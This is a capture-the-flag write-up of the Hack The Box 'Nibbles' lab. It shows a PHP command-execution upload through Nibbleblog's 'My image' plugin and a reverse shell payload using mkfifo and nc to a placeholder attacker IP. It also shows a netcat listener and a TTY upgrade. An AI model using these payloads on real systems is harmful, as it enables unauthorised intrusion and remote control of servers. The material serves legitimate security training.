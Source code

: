 # Nibbles - Initial Foothold

## Steps to Gain Initial Foothold
1. **Admin Portal Enumeration:**
   - Key Pages:
     - `Publish`: For creating posts/pages.
     - `Manage`: Manage categories, not very interesting.
     - `Themes`: Install pre-selected themes.
     - `Plugins`: Configure and install plugins (notably the "My image" plugin for file uploads).
     - `Settings`: Confirmed version 4.0.3 of Nibbleblog in use.

2. **Exploiting "My Image" Plugin:**
   - Uploaded a PHP file containing:
     ```php
     <?php system('id'); ?>
     ```
   - Upload errors confirmed that the file was saved but not processed correctly.
   - Found the uploaded file at: `/nibbleblog/content/private/plugins/my_image/image.php`.

3. **Remote Code Execution (RCE):**
   - Verified RCE by curling the uploaded PHP file:
     ```bash
     curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
     ```
   - Result:
     ```
     uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
     ```

4. **Reverse Shell Upload:**
   - Modified PHP script with a reverse shell payload:
     ```php
     <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT> >/tmp/f"); ?>
     ```
   - Uploaded the file and executed it via:
     ```bash
     curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
     ```

5. **Netcat Listener:**
   - Set up a listener to catch the reverse shell:
     ```bash
     nc -lvnp 9443
     ```
   - Shell obtained:
     ```
     /bin/sh: 0: can't access tty; job control turned off
     $ id
     uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
     ```

6. **Upgrading Shell:**
   - Python2 was unavailable, so upgraded the shell using Python3:
     ```bash
     python3 -c 'import pty; pty.spawn("/bin/bash")'
     ```

## Post-Exploitation
- **User Directory Contents:**
  - Found `user.txt` flag and `personal.zip` file in `/home/nibbler`.

## Key Learnings
1. Exploiting upload vulnerabilities can lead to RCE if improperly sanitized.
2. Reverse shells are a crucial step in gaining interactive server access.
3. Upgrading to a fully interactive TTY makes further exploration smoother.

---

# Questions
1) Gain a foothold on the target and submit the user.txt flag
Follow this guide, since the step is recreated here:
https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html#metasploit--meterpreter
